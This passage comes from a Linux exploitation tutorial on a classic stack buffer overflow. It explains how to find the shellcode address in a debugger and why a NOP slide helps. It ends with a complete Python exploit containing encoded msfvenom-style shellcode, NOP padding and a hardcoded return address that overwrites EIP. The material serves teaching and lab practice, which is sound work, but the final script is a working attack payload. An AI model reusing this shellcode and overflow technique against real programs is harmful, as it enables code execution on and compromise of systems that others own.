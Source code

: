 Now you can paste the result buffer into the exploit.

We can also instruct `msfvenom` to store the generated payload in a file for convenience, rather than displaying it on the terminal.

The final step is to determine the address of the shellcode at the time of the crash. Let's quickly debug the program using the first payload (so `EIP` is `0x42424242`).

![debug](images/linux-exploitation-23-36.png)

We inspect `200` bytes beginning at the current `esp`, `0x230`. This is the beginning address of the program buffer.
Additionally, we can see where the `AAAAA`s begin, which is the following address: `0xbfffed70 + 0x8`

![d](images/linux-exploitation-23-39.png)

Hardcoding an address in an exploit is considered a bad
practice and often results in poor reliability. However, as this is a basic exploit, we do not need to care about this right now.

The shellcode begins at address `0xbfffed78`. As even the environment variable changes may shift the stack by a few bytes, let's increase the stack's dependability by inserting a `NOP` slide before the shellcode.

`NOP` is a _No-Operation instruction_ (opcode `0x90`) and does nothing. Its original purpose was to help with measuring
processor performance by performing just an empty cycle.

`NOP`s can be added to the beginning of the shellcode.

As `NOP`s are empty operations, if the execution flow is shifted to a long sequence of `NOP`s (referred to as a `NOP` slide), the program will execute them en route to the shellcode that follows them. It does not matter whether the execution flow is moved to the beginning or middle of a `NOP` slide, as long as the shellcode is at its end, it will be executed.

The full exploit can be seen below:

```python
buf =  ""
buf += "\xba\x6c\x34\xa2\xea\xdb\xce\xd9\x74\x24\xf4\x5d\x2b"
buf += "\xc9\xb1\x12\x31\x55\x12\x03\x55\x12\x83\x81\xc8\x40"
buf += "\x1f\x68\xea\x72\x03\xd9\x4f\x2e\xae\xdf\xc6\x31\x9e"
buf += "\xb9\x15\x31\x4c\x1c\x16\x0d\xbe\x1e\x1f\x0b\xb9\x76"
buf += "\x60\x43\xb2\x15\x08\x96\xc5\x08\x95\x1f\x24\x9a\x43"
buf += "\x70\xf6\x89\x38\x73\x71\xcc\xf2\xf4\xd3\x66\x63\xda"
buf += "\xa0\x1e\x13\x0b\x68\xbc\x8a\xda\x95\x12\x1e\x54\xb8"
buf += "\x22\xab\xab\xbb"

print "\x90" * 16 + buf + "A" * (500 - len(buf)) + "\x78\xed\xff\xbf" + "C" * 180
```
